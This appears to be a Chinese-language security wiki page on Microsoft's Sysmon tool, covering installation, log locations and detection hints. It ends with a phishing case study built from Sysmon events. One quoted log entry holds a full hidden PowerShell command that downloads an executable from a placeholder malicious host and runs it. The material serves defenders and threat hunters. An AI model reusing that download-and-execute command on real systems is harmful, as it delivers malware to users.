

# Sysmon

<p align="center">
    
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**简介**

Sysmon 是微软的一款轻量级的系统监控工具，最开始是由 Sysinternals 开发的，后来 Sysinternals 被微软收购，现在属于 Sysinternals 系列工具。它通过系统服务和驱动程序实现记录进程创建、文件访问以及网络信息的记录，并把相关的信息写入并展示在 windows 的日志事件里。

sysmon 特点是用完整的命令行记录下子进程和父进程的创建行为。

使用 sha1（默认），MD5，SHA256 或 IMPHASH 记录进程镜像文件的 hash 值。可以同时使用多个 hash，包括进程创建过程中的进程 GUID。

每个事件中包含 session 的 GUID。

**下载地址**
- https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon

**资源**
- [SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config) - Sysmon 配置文件模板，带有默认的高质量事件追踪功能。

**文章 & Reference**
- [Threat Hunting with Sysmon: Word Document with Macro](http://www.syspanda.com/index.php/2017/10/10/threat-hunting-sysmon-word-document-macro/)
- [使用Sysmon和Splunk探测网络环境中横向渗透](https://www.freebuf.com/sectool/125846.html)
- [使用轻量级工具Sysmon监视你的系统](https://www.freebuf.com/sectool/122779.html)

---

# 安装
```
Sysmon.exe -i
```

更新配置文件
```
sysmon.exe -c sysmonconfig-export.xml
```

如果需要卸载
```
sysmon.exe -u
```

选项
```
-c 更新或显示配置
-h 指定hash记录的算法
-i 安装，可用xml文件来更新配置文件
-l 记录加载模块，可指定进程
-m 安装事件清单
-n 记录网络链接
-r 检测证书是否撤销
-u 卸载服务和驱动
```

## 查看日志记录

<kbd>Win</kbd>+<kbd>R</kbd> , `eventvwr.msc` , 应用程序和服务日志/Microsof/Windows/Sysmon/Operational

Sysmon 日志默认保存在 `%SystemRoot%\System32\Winevt\Logs\Microsoft-Windows-Sysmon%4Operational.evtx` ，可在事件查看器的日志属性设置保存在远程服务器，或通过其他工具或脚本保存。

## DNS记录

DNS 访问记录需要查看事件日志，筛选日志，DNS 查询事件号为 22。利用筛选功能进行过滤。

## dump hash

查找日志，GrantedAccess 的值为 0x143A ,是进行了 dump hash 操作.

## 后门 Shell

查找 CreateRemoteThread

## 案例

案例来自 <sup>[[Threat Hunting with Sysmon: Word Document with Macro](http://www.syspanda.com/index.php/2017/10/10/threat-hunting-sysmon-word-document-macro/)]</sup>

> PhishedUser点击了Outlook中的一个链接，启动了IE浏览器，并打开了一个叫https://company.life_q…..com的网站。

```
event_data.ParentCommandLine: “C:\Program Files (x86)\Microsoft Office\Office14\OUTLOOK.EXE”
event_data.Image: C:\Program Files\Internet Explorer\iexplore.exe
event_data.CommandLine: “C:\Program Files\Internet Explorer\iexplore.exe” https://Dcompany.life_qliwiwkwstxrkgbbz_bdfnccd&d=DwMF-Q&c=LQ_lgKiodJdZA
event_data.User: PhishedUser
```

> IE浏览器下载了一个名为6E713D2A.doc的文件。请注意：日志有时可能会显示为.tmp文件，这是因为有些事件在日志记录时，还未下载未完成。

```
event_data.Image: C:\Program Files (x86)\Internet Explorer\IEXPLORE.EXE
event_data.TargetFilename: C:\Users\PhisedUser\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\POHSQH12\6E713D2A.doc
```

> 用户打开了6E713D2A.doc文件

```
event_data.Image: C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE
event_data.TargetFilename: C:\Users\PhisedUser\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\POHSQH12\6E713D2A.doc
```

> 带有宏的Word恶意文档被启动，并运行了一个powershell命令，该命令正在尝试从http://Malicioussite.su/z3FRJz下载一个名为65536.exe的可执行文件。

```
event_data.ParentImage: C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE
event_data.ParentCommandLine: “C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE” -Embedding
event_data.Image: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
event_data.CommandLine: powershell -WindowStyle Hidden $webclient = new-object System.Net.WebClient;$myurls = ‘http://Malicioussite.su/z3FRJz’.Split(‘,’);$path = $env:temp + ‘65536.exe’;foreach($myurl in $myurls){try{$webclient.DownloadFile($myurl.ToString(), $path);Start-Process $path;break;}catch{}}
event_data.User: PhisedUser
```

> Powershell将65536.exe下载到C:\Users\PhisedUser\AppData\Local\Temp

```
event_id: 11
event_data.Image: C:\Windows\SysWOW64\Windows\PowerShell\v1.0\powershell.exe
event_data.TargetFilename: C:\Users\PhisedUser\AppData\Local\Temp\65536.exe
```
